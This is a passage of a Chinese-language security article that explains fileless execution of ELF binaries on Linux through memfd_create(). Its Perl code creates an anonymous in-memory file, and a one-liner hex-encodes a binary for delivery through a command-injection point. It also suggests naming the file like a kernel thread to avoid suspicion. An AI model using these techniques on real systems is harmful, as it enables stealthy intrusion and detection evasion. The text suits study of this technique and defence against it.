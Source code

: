 如上代码使用`memfd`创建一个子进程，将其输出重定向至一个临时文件，等待子进程结束，从临时文件中读取子进程输出数据。通常情况下，*nix环境会使用`|`管道将一个程序的输出重定向至另一个程序的输入。

在解释型语言（如perl、python等）中我们也可以使用`syscall()`。接下来我们看一下可能碰到的一种场景，演示如何使用`memfd_create()`将可执行文件载入内存中。



## 三、Perl

假设现在我们已经找到了命令注入点，我们需要找到在目标上执行系统命令的方法。在perl中我们可以使用[syscall()](https://perldoc.perl.org/functions/syscall.html)函数，此外我们还需要将ELF文件以匿名文件内容的形式直接写入内存。为了完成这个任务，我们可以将其写在脚本源码中，使用命令注入来注入脚本，当然我们也可以选择网络下载方式。然而，这里我们要清楚目标Linux内核版本，因为只有在**3.17**或更高版本内核中才能使用`memfd_create()`。

接下来进一步分析`memfd_create()`以及`execve()`。

对于匿名文件我们准备使用`MFD_CLOEXEC`常量，利用该常量可以在新打开的文件描述符上设置`close-on-exec`（`FD_CLOEXEC`）标志。这意味着当我们`execve()` ELF文件时，我们的文件描述符就会被自动关闭。

由于我们使用的是Perl的`syscall()`，因此需要调用号（call number）以及数字常量（numeric constant）。我们可以在`/usr/include`或者网上找到这些信息。系统调用号位于`#define`中，前缀为`__NR_`。在这个场景中，64位Linux系统上`memfd_create()`的系统调用号为`319`，数字常量为`FD_CLOSEXEC 0x0001U`（即`linux/memfd.h`中的`1`）。

找到所需的编号后，我们可以在Perl中实现与C语言等效的`memfd_create(name, MFD_CLOEXEC)`语句。我们还需要为文件选择一个名称，前面提到过，我们会在`/proc/self/fd/`目录中看到带有`/memfd:`前缀的文件名。因此我们最好的方法就是选择接近`[:kworker]`或者看上去不大可疑的另一个名称。

比如我们可以传入空的字符串：

```
my $name = "";
my $fd = syscall(319, $name, 1);
if (-1 == $fd) `{`
        die "memfd_create: $!";
`}`
```

现在`$fd`为匿名文件的文件描述符，我们需要将ELF写入该文件。Perl中有个[open()](http://perldoc.perl.org/functions/open.html)函数，通常用来打开文件，我们也可以使用该函数，在参数中指定`&gt;&amp;=FD`（而非文件名），将已打开的文件描述符转化为文件句柄。此外这里还需要设置`autoflush[]`。

```
open(my $FH, '&gt;&amp;='.$fd) or die "open: $!";
select((select($FH), $|=1)[0]);
```

现在我们已经搞定指向匿名文件的一个文件描述符。接下来我们需要将可执行文件提供给Perl，可以通过如下方式：

```
$ perl -e '$/=\32;print"print \$FH pack q/H*/, q/".(unpack"H*")."/\ or die qq/write: \$!/;\n"while(&lt;&gt;)' ./elfbinary
```

以上命令会输出许多行，如下所示：

```
print $FH pack q/H*/, q/7f454c4602010100000000000000000002003e0001000000304f450000000000/ or die qq/write: $!/;
print $FH pack q/H*/, q/4000000000000000c80100000000000000000000400038000700400017000300/ or die qq/write: $!/;
print $FH pack q/H*/, q/0600000004000000400000000000000040004000000000004000400000000000/ or die qq/write: $!/;
```
